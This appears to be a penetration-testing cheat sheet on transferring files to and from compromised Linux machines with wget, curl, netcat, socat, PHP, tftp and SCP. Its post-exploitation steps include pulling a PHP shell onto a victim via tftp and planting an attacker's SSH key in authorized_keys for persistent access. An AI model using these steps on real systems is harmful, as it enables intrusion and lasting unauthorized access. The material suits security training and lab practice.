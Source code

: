 # Transfering Files on Linux

## Set Up a Simple Python Webserver

For the examples using `curl` and `wget` we need to download from a web-server. This is an easy way to set up a web-server. This command will make the entire folder, from where you issue the command, available on port 9999.

```text
$ python -m SimpleHTTPServer 9999
```

### Or using PHP

```text
$ php -S 0.0.0.0:80    # choose whatever port you want at the end there.
```

## Wget

You can download files using `wget` like this:

```text
$ wget 192.168.1.102:9999/file.txt
```

## Curl

```text
$ curl -O http://192.168.0.101/file.txt
```

## Netcat

Another easy way to transfer files is by using netcat.

If you can't have an interactive shell it might be risky to start listening on a port, since it could be that the attacking-machine is unable to connect. So you are left hanging and can't do `ctr-c` because that will kill your session.

So instead you can connect from the target machine like this.

On attacking machine:

```bash
$ nc -lvp 4444 < file
```

On target machine:

```bash
$ nc 192.168.1.102 4444 > file
```

You can of course also do it the risky way, the other way around:

So on the victim-machine we run `nc` like this:

```bash
$ nc -lvp 3333 > enum.sh
```

And on the attacking machine we send the file like this:

```bash
$ nc 192.168.1.103 < enum.sh
```

I have sometimes received this error:

```text
This is nc from the netcat-openbsd package. An alternative nc is available
```

I have just run this command instead:

```text
$ nc -l 1234 > file.sh
```

## Socat

Server receiving file:

```text
server$ socat -u TCP-LISTEN:9876,reuseaddr OPEN:out.txt,creat && cat out.txt
client$ socat -u FILE:test.txt TCP:127.0.0.1:9876
```

Server sending file:

```text
server$ socat -u FILE:test.dat TCP-LISTEN:9876,reuseaddr
client$ socat -u TCP:127.0.0.1:9876 OPEN:out.dat,creat
```

## With php

```text
echo "<?php file_put_contents('nameOfFile', fopen('http://192.168.1.102/file', 'r')); ?>" > down2.php
```

## Ftp

If you have access to a ftp-client to can of course just use that. Remember, if you are uploading binaries you must use binary mode, otherwise the binary will become corrupted!!!

## Tftp

On some rare machine we do not have access to `nc` and `wget`, or `curl`. But we might have access to `tftp`. Some versions of `tftp` are run interactively, like this:

```text
$ tftp 192.168.0.101
tftp> get myfile.txt
```

If we can't run it interactively, for whatever reason, we can do this trick:

```text
$ tftp 191.168.0.101 <<< "get shell5555.php shell5555.php"
```

### SSH - SCP

If you manage to upload a reverse-shell and get access to the machine you might be able to enter using ssh. Which might give you a better shell and more stability, and all the other features of SSH. Like transferring files.

So, in the `/home/user` directory you can find the hidden `.ssh` files by typing `ls -la`.  
Then you need to do two things.

1. Create a new keypair

You do that with:

```text
$ ssh-keygen -t rsa -C "your_email@example.com"
```

then you enter a name for the key.

Enter file in which to save the key \(/root/.ssh/id\_rsa\): nameOfMyKey  
Enter passphrase \(empty for no passphrase\):  
Enter same passphrase again:

This will create two files, one called `nameOfMyKey` and another called `nameOfMyKey_pub`. The one with the `_pub` is of course your public key. And the other key is your private.

1. Add your public key to authorized\_keys.

Now you copy the content of `nameOfMyKey_pub`.  
On the compromised machine you go to `~/.ssh` and then run add the public key to the file authorized\_keys. Like this

```bash
$ echo "ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDQqlhJKYtL/r9655iwp5TiUM9Khp2DJtsJVW3t5qU765wR5Ni+ALEZYwqxHPNYS/kZ4Vdv..." > authorized_keys
```

1. Log in.

Now you should be all set to log in using your private key. Like this

```text
$ ssh -i nameOfMyKey kim@192.168.1.103
```

### SCP

Now we can copy files to a machine using `scp`

```text
# Copy a file:
scp /path/to/source/file.ext username@192.168.1.101:/path/to/destination/file.ext

# Copy a directory:
scp -r /path/to/source/dir username@192.168.1.101:/path/to/destination
```


